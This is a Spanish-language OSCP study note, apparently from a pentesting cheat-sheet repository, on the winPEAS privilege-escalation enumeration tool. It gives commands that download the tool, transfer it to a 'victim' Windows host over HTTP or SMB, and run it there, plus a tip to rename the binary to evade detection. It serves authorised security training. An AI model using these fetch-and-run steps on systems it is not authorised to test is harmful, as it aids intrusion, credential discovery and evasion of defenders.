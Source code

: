 `winPEAS` es una herramienta automática de enumeración para Windows enfocada en detectar configuraciones débiles y vectores de escalada. Está permitida en el OSCP siempre que se use la versión `.exe` (no la `.bat` ni la `ps1`).

---

## Descarga

Desde tu máquina atacante:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe
```

---

## Transferencia a la víctima

Puedes usar cualquiera de estos métodos:

### HTTP Server
```bash
python3 -m http.server 80
```
En la víctima:
```powershell
powershell -c "Invoke-WebRequest http://<IP>:80/winPEASany.exe -OutFile C:\Windows\Temp\winpeas.exe"
```

### SMB Server
```bash
sudo impacket-smbserver SHARE $(pwd) -smb2support
```
En la víctima:
```cmd
copy \\<IP>\SHARE\winPEASany.exe C:\Windows\Temp\winpeas.exe
```

---

## Ejecución

```cmd
cd C:\Windows\Temp
winpeas.exe
```

Se recomienda ejecutar desde `cmd.exe` o `powershell.exe` en lugar de shells interactivas no nativas.

---

## Qué detecta

- Servicios mal configurados
- Permisos de escritura inseguros
- Binarios con capacidades elevadas
- Contraseñas en archivos o registros
- Usuarios, grupos, privilegios
- Rutas interesantes y binarios SUID

---

## Interpretación

- Salida codificada por colores (si tu consola lo soporta):
  - Verde: información
  - Amarillo: potencialmente útil
  - Rojo: muy probable escalada

Si no ves colores, puedes redirigir la salida a un archivo:
```cmd
winpeas.exe > resultado.txt
```

---

## Casos de Uso en OSCP

- Detectar permisos inseguros sobre servicios o binarios
- Encontrar scripts o configuraciones con contraseñas hardcodeadas
- Identificar rutas de escalada directa (tareas programadas, credenciales, etc.)

---

## Buenas Prácticas

- Ejecutar nada más comprometer un Windows
- Transferir como `winpeas.exe` para evitar detección o bloqueo
- Guardar salida y analizar con calma si hay muchos resultados

---
